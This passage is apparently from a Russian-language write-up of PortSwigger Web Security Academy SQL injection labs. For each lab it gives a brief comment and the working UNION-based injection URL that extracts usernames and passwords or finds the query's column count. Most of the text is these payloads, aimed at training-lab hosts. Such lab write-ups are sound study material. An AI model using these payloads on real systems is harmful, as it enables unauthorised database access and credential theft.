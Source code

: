 При помощи information_schema узнал название таблиц и столбцов, а далее

```
/filter?category=Food+%26+Drink'+UNION+SELECT+username_zlsgld,+password_pdgcrz+FROM+users_inrtyt-- 
```

## 6. Lab: SQL injection attack, listing the database contents on Oracle

Тут уже было all_tab_columns и all_tables

```
Pets'+UNION+SELECT+USERNAME_QPCQFG,+PASSWORD_SUWKHT+FROM+USERS_OUTBIY--
```

## 7. Lab: SQL injection UNION attack, determining the number of columns returned by the query

Написал переборный скрипт (lab7.py) и нашел, что нужное количество колонн в запросе - 3

```
https://0a65000d0335c09a818b5cbb001900b1.web-security-academy.net/filter
?category=%27+UNION+SELECT+NULL,NULL,NULL--
```

## 8. Lab: SQL injection UNION attack, finding a column containing text

По аналогии с прошлым заданием оформил скрипт (lab_8.py), в котором сначала перебором нахожу сколько надо вставить, а затем поочередно каждый заменяю.

```
https://0ac8005a04f8e01c81be480e007d00bf.web-security-academy.net/filter
?category=Pets%27+UNION+SELECT+NULL,%27thfFL2%27,NULL--
```

## 9. Lab: SQL injection UNION attack, retrieving data from other tables

Просто и понятно сделать query и все

```
https://0aa9009e0396832a8130482600990072.web-security-academy.net/filter?category=Accessories
%27UNION%20SELECT%20username,password%20FROM%20users%20WHERE%20username=%27administrator%27--
```

## 10. Lab: SQL injection UNION attack, retrieving multiple values in a single column

Тут секрет был в том, что первое поле - не могло вернуть строку, потому надо было во второе поле обьединить юзера и пароль

```
https://0a660061049321058110c1f000fa0057.web-security-academy.net/filter?category=Accessories
%27+UNION+SELECT+NULL,username||%27~%27||password+FROM+users--
```
